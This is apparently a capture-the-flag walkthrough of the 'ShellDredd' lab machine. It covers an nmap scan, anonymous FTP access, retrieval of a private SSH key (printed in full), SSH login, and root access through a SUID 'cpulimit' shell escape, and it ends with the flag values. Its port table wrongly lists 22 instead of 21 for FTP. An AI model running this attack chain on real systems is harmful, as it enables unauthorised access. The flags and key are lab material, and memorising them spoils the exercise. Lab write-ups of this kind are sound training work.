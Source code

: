 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
---
```


## Reconnaissance

### Nmap scan

Let's perform an `nmap` scan to find the open ports and the services running on the open ports.

```
$ nmap -Pn -p- -A -T5 192.168.174.130
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-11 08:09 EDT
Warning: 192.168.174.130 giving up on port because retransmission cap hit (2).
Nmap scan report for 192.168.174.130
Host is up (0.068s latency).
Not shown: 64550 closed tcp ports (conn-refused), 983 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.45.234
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
61000/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 59:2d:21:0c:2f:af:9d:5a:7b:3e:a4:27:aa:37:89:08 (RSA)
|   256 59:26:da:44:3b:97:d2:30:b1:9b:9b:02:74:8b:87:58 (ECDSA)
|_  256 8e:ad:10:4f:e3:3e:65:28:40:cb:5b:bf:1d:24:7f:17 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 309.33 seconds
```

There are two open ports:

| Port  | Service |
| ----- | ------- |
| 22    | ftp     |
| 61000 | ssh     |

### Port 21 (FTP) enumeration

From the Nmap scan we can see that Anonymous login is allowed for FTP. Let's try it.

| Username  | Password  |
| --------- | --------- |
| anonymous | anonymous |

```
$ ftp 192.168.174.130                                                    
Connected to 192.168.174.130.
220 (vsFTPd 3.0.3)
Name (192.168.174.130:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

```
ftp> ls -la
229 Entering Extended Passive Mode (|||35727|)
150 Here comes the directory listing.
drwxr-xr-x    3 0        115          4096 Aug 06  2020 .
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .hannah
226 Directory send OK.
```

```
ftp> cd .hannah
250 Directory successfully changed.
```

```
ftp> ls -la
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..
-rwxr-xr-x    1 0        0            1823 Aug 06  2020 id_rsa
226 Directory send OK.
```

We can see that there is a `id_rsa` key, which is the private key for SSH.
Before we download the files, we have to turn the passive mode off.

```
ftp> passive off
Passive mode: off; fallback to active mode: off.
```

Now we can download `id_rsa` using the `get` command.

```
ftp> get id_rsa
local: id_rsa remote: id_rsa
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for id_rsa (1823 bytes).
100% |***********************************************************************************************************************************************************************************************|  1823       10.53 MiB/s    00:00 ETA
226 Transfer complete.
1823 bytes received in 00:00 (25.25 KiB/s)
```

On the attacker's machine let's check if the private SSH key is encrypted.

```
$ cat id_rsa                                 
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEA1+dMq5Furk3CdxomSts5UsflONuLrAhtWzxvzmDk/fwk9ZZJMYSr
/B76klXVvqrJrZaSPuFhpRiuNr6VybSTrHB3Db7cbJvNrYiovyOOI92fsQ4EDQ1tssS0WR
6iOBdS9dndBF17vOqtHgJIIJPGgCsGpVKXkkMZUbDZDMibs4A26oXjdhjNs74npBq8gqvX
Y4RltqCayDQ67g3tLw8Gpe556tIxt1OlfNWp3mgCxVLE1/FE9S6JP+LeJtF6ctnzMIfdmd
GtlWLJdFmA4Rek1VxEEOskzP/jW9LXn2ebrRd3yG6SEO6o9+uUzLUr3tv9eLSR63Lkh1jz
n5GAP3ogHwAAA8hHmUHbR5lB2wAAAAdzc2gtcnNhAAABAQDX50yrkW6uTcJ3GiZK2zlSx+
U424usCG1bPG/OYOT9/CT1lkkxhKv8HvqSVdW+qsmtlpI+4WGlGK42vpXJtJOscHcNvtxs
m82tiKi/I44j3Z+xDgQNDW2yxLRZHqI4F1L12d0EXXu86q0eAkggk8aAKwalUpeSQxlRsN
kMyJuzgDbqheN2GM2zviekGryCq9djhGW2oJrINDruDe0vDwal7nnq0jG3U6V81aneaALF
UsTX8UT1Lok/4t4m0Xpy2fMwh92Z0a2VYsl0WYDhF6TVXEQQ6yTM/+Nb0tefZ5utF3fIbp
IQ7qj365TMtSve2/14tJHrcuSHWPOfkYA/eiAfAAAAAwEAAQAAAQEAmGDIvfYgtahv7Xtp
Nz/OD1zBrQVWaI5yEAhxqKi+NXu14ha1hdtrPr/mfU1TVARZ3sf8Y6DSN6FZo42TTg7Cgt
vFStA/5e94lFd1MaG4ehu6z01jEos9twQZfSSfvRLJHHctBB2ubUD7+cgGe+eQG3lCcX//
Nd1hi0RTjDAxo9c342/cLR/h3NzU53u7UZJ0U3JLgorUVyonN79zy1VzawL47DocD4DoWC
g8UNdChGGIicgM26OSp28naYNA/5gEEqVGyoh6kyU35qSSLvdGErTMZxVhIfWMVK0hEJGK
yyR15GMmBzDG1PWUqzgbgsJdsHuicEr8CCpaqTEBGpa28QAAAIAoQ2RvULGSqDDu2Salj/
RrfUui6lVd+yo+X7yS8gP6lxsM9in0vUCR3rC/i4yG0WhxsK3GuzfMMdJ82Qc2mQKuc05S
I96Ra9lQolZTZ8orWNkVWrlXF5uiQrbUJ/N5Fld1nvShgYIqSjBKVoFjO5PH4c5aspX5iv
td/kdikaEKmAAAAIEA8tWZGNKyc+pUslJ3nuiPNZzAZMgSp8ZL65TXx+2D1XxR+OnP2Bcd
aHsRkeLw4Mu1JYtk1uLHuQ2OUPm1IZT8XtqmuLo1XMKOC5tAxsj0IpgGPoJf8/2xUqz9tK
LOJK7HN+iwdohkkde9njtfl5Jotq4I5SqKTtIBrtaEjjKZCwUAAACBAOOb6qhGECMwVKCK
9izhqkaCr5j8gtHYBLkHG1Dot3cS4kYvoJ4Xd6AmGnQvB1Bm2PAIA+LurbXpmEp9sQ9+m8
Yy9ZpuPiSXuNdUknlGY6kl+ZY46aes/P5pa34Zk1jWOXw68q86tOUus0A1Gbk1wkaWddye
HvHD9hkCPIq7Sc/TAAAADXJvb3RAT2ZmU2hlbGwBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```

&nbsp;

## Exploitation

### SSH login using private key

Since we found the private key in the `.hannah` directory, chances are it belongs to the `hannah` user.

Before we log in, we have to set the file permission to `600`.

```
$ chmod 600 id_rsa 
```

Now we can log in as `hannah` using the private SSH key.

```
$ ssh -i id_rsa hannah@192.168.174.130 -p 61000
Linux ShellDredd 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug 11 14:27:51 2024 from 192.168.45.234
hannah@ShellDredd:~$ 
```

&nbsp;

## Post Exploitation

### local.txt

```
hannah@ShellDredd:~$ cat local.txt 
7f63370140bf587c7e1d9b96cf46a482
```

### Privilege Escalation

#### SetUID binaries

We can use the `find` command to search for files on the system where the `setuid` bit is set.

```
hannah@ShellDredd:~$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/mawk
/usr/bin/chfn
/usr/bin/su
/usr/bin/chsh
/usr/bin/fusermount
/usr/bin/cpulimit
/usr/bin/mount
/usr/bin/passwd
```

We can now use on of these files to escalate our privilege.

Let's go to [GTFOBins](https://gtfobins.github.io/gtfobins/cpulimit/#suid) to search for an exploit for the `cpulimit` utility.

![1](https://github.com/user-attachments/assets/10ba9487-da3c-4245-9227-5308cd063fa9)

```
hannah@ShellDredd:~$ /usr/bin/cpulimit -l 100 -f -- /bin/sh -p
Process 1190 detected
# whoami
root
```

### proof.txt

```
# cat /root/proof.txt
6f31c24a8b78ea0271ecfa3da1856390
```
